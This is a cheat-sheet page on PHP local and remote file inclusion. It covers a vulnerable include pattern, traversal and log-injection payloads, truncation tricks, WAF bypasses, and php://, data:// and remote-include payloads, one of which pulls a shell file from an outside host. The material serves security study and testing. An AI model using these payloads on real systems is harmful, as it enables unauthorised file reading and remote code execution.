 File contains
========================================

Base
----------------------------------------
Common file contains vulnerabilities in the form of ``<?php include("inc/" . $_GET['file']); ?>``

Consider several commonly used methods of inclusion

- The same directory contains ``file=.htaccess``
- Directory traversal ``?file=../../../../../../../../var/lib/locate.db``
- Log injection ``?file=../../../../../../../../var/log/apache/error.log``
-Use ``/proc/self/environ``

The log can be tested using SSH logs or web logs.

Trigger Sink
----------------------------------------
- PHP
- include
- An error occurs during the inclusion process and will not affect the execution of subsequent statements
- include_once
- Only once included
- require
- If an error occurs during the inclusion process, it will exit directly and no subsequent statements will be executed
- require_once


Bypassing Tips
----------------------------------------
Common applications may call functions to judge the file before it is included. Generally, there are several ways to bypass it.

Url encoding bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
If the string matches in WAF, you can use url multiple encodings to bypass it

Special character bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- In some cases, reading files supports the use of Shell wildcards, such as ``?`````*`, etc.
- Using ``?``````` in url may affect the results included
- In some cases, characters with different encodings but similar glyphs have the same effect

%00 cutoff
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Almost the most commonly used method, provided that ``magic_quotes_gpc`` is closed and the php version is less than 5.3.4.

Length cutoff
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The length of the file name on Windows is related to the file path. The specific relationship is: from the root directory, the file path length is up to 259 bytes.

msdn definition ``#define MAX_PATH 260``, where the 260th character is the end of the string `` `` , while Linux can use getconf to determine file name length limit and file path length limit.

Get the longest file path length: getconf PATH_MAX /root Get 4096
Get the longest file name: getconf NAME_MAX /root Get 255

Then when the length is limited, the path can be exploded through this form of ``././././`.

In the php code inclusion, this bypass method requires the php version < php 5.2.8

Pseudo-Protocol Bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Remote contains: Requires ``allow_url_fopen=On`` and ``allow_url_include=On``, and payload is ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` form
- PHP input: Put the payload in the POST parameter as the included file, requiring ``allow_url_include=On``, and the payload is in the form of ``?file=php://input``
- Base64: Use Base64 pseudo-protocol to read files, payload is in the form of ``?file=php://filter/convert.base64-encode/resource=index.php``
- data: Use the data pseudo-protocol to read the file, payload is in the form of ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=``, requiring ``allow_url_include=On``

Protocol bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``allow_url_fopen`` and ``allow_url_include`` mainly work for the ``http`` ``ftp`` two protocols, so SMB, WebDav protocols, etc. can be used to bypass restrictions.

Reference link
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_
